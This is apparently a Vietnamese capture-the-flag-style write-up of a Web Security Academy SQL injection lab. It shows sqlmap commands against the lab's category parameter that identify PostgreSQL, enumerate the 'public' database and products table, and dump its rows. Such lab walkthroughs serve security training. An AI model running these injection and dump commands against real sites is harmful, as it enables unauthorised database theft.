 mục đích của chúng ta đã hoàn thành và mình đã giải quyết được lab này

![image](https://hackmd.io/_uploads/HyCDHEs5p.png)

### SQLMAP

- mình đã làm lại bài này và dùng sqlmap với payload

```!
sqlmap -u https://0a0600e904b01dae81da442400a500d4.web-security-academy.net/filter?category=Accessories --batch
```

![ảnh](https://hackmd.io/_uploads/SJUfCb73T.png)

![ảnh](https://hackmd.io/_uploads/H19XCWX3p.png)

mình biết được database ở đây dùng là PostgreSQL

mình sẽ tìm database được dùng trong web này

![ảnh](https://hackmd.io/_uploads/HJ3PkMXnT.png)

và mình tìm được database là **public**

![ảnh](https://hackmd.io/_uploads/Bk6TkfQ36.png)

tìm trong database public mình được table products với

```sql!
 sqlmap -u https://0a0600e904b01dae81da442400a500d4.web-security-academy.net/filter?category=Accessories --batch -D public --tables
        ___
```

tiếp tục tìm thông tin về tên các cột với lệnh

```!
sqlmap -u https://0a0600e904b01dae81da442400a500d4.web-security-academy.net/filter?category=Accessories --batch -D public -T  products --columns
```

mình được

![ảnh](https://hackmd.io/_uploads/ryt7Zzm26.png)

và mình tìm được 8 cột trong đó có cột released

mình lấy thông tin sản phẩm của bảng products này ra với lệnh

```!
sqlmap -u https://0a0600e904b01dae81da442400a500d4.web-security-academy.net/filter?category=Accessories --batch -D public -T  products --dump
```

và được

![ảnh](https://hackmd.io/_uploads/r1dkmz7n6.png)
